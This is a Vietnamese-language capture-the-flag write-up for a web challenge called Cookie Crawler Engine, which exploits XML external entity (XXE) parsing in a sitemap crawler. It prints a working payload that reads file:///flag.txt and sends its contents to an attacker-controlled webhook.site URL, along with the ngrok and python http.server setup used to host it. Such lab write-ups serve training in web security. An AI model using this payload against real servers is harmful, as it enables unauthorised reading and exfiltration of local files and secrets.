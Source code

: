# XXE

**Tên challenge:** Cookie Crawler Engine

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/cookie-crawler-engine)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** Cookie Crawler Engine allows users to input a URL sitemap.xml . If found, the application extracts all entries from the sitemap, retrieves each <loc> (location) within those entries, and sends HTTP requests to each URL.

Flag Location: `/flag.txt`
Flag Format: `CHH{XXX}`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, khi truy cập vào Website thì chỉ có 1 dòng text như sau:
```
You have to provide a sitemap.xml URL. /?sitemap_url=http://example.com/sitemap.xml
```
Như đề bài Challenge đã đề cập, chức năng của trang Web sẽ lấy input đến file `sitemap.xml` mà mình cung cấp rồi nó sẽ tìm ra những **URL** nằm bên trong các tag `<loc>` rồi gửi gói tin đến các **URL** đó.

Ok, vậy bây giờ ta sẽ thử tạo 1 file `sitemap.xml` có nội dung như sau:
```
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
<url>
<loc>https://webhook.site/XXXXXX</loc>
<lastmod>2024-12-11</lastmod>
<changefreq>daily</changefreq>
<priority>1.0</priority>
</url>
</urlset>
```
Để kiểm tra xem, liệu ứng dụng Web có gửi gói tin đến Webhook của ta không.

<u>**Lưu ý:**</u> Nhớ chỉnh sửa lại đường dẫn Webhook trong tag <loc> thành link Webhook của bạn.

**B2:** Ta tiến hành dùng `ngrok` và `python` để mở 1 Website có chứa file `sitemap.xml` mà ta vừa tạo ở trên.
```
$> ls
sitemap.xml

$> python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Kế đến, ta dùng lệnh `ngrok` để mở 1 **URL** có tác dụng forwarding vào port localhost 80 của ta mỗi khi có request đến **URL** public ngrok.
```
$> ngrok http 80
ngrok                                                                                                   (Ctrl+C to quit)                                                                                                                        🔀 Route traffic by anything: https://ngrok.com/r/iep

Session Status                online
Account                       Email@gmail.com (Plan: Free)
Version                       3.18.4
Region                        Asia Pacific (ap)
Latency                       147ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    https://1ffe-14-191-63-84.ngrok-free.app -> http://localhost:80

Connections                   ttl     opn     rt1     rt5     p50     p90
                              11      0       0.00    0.00    0.00    0.40                                                                                                                                                                      HTTP Requests
-------------  
```

Ta thử truy cập vào đường link: `https://1ffe-14-191-63-84.ngrok-free.app/sitemap.xml` để xem nó có hoạt động không.

![alt text](./images/image.png)

Vậy là ta đã thành công tạo 1 đường link URL đến `sitemap.xml`.

**B3:** Ta gửi link này lên trên Website.

![alt text](./images/image-1.png)
Không có gì được trả về, nhưng khi ta check lại Webhook thì ta thấy có 1 gói tin được gửi đến.

![alt text](./images/image-2.png)

=> Vậy là đường dẫn đến `sitemap.xml` của ta đã thành công.

Tiếp đến, ta thử khai thác `XXE` bằng thay đổi nội dung file `sitemap.xml` như sau:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
  <url>
    <loc>https://webhook.site/XXXX/?test=&example;</loc>
    <lastmod>2024-12-11</lastmod>
    <changefreq>daily</changefreq>
    <priority>1.0</priority>
  </url>
</urlset>
```
**B4:** Ta tiến hành gửi lại link URL `sitemap.xml` đến Server

![alt text](./images/image-3.png)

Xem ra Website vẫn thực thi đoạn code Internal Entity của ta rồi gán nó vào URL Webhook và gửi đi.

**B5:** Ta tiếp tục thay đổi nội dung file `sitemap.xml` để thử đọc nội dung file `flag.txt` như sau:
```
 GNU nano 7.2                                           sitemap.xml                                                    <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "file:///flag.txt"> ]>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
  <url>
    <loc>https://webhook.site/XXXX/?test=&example;</loc>
    <lastmod>2024-12-11</lastmod>
    <changefreq>daily</changefreq>
    <priority>1.0</priority>
  </url>
</urlset>
```

**B6:** Ta tiến hành gửi lên Server 1 lần nữa:

![alt text](./images/image-4.png)

=> Vậy là ta đã thành công đọc được `Flag`.
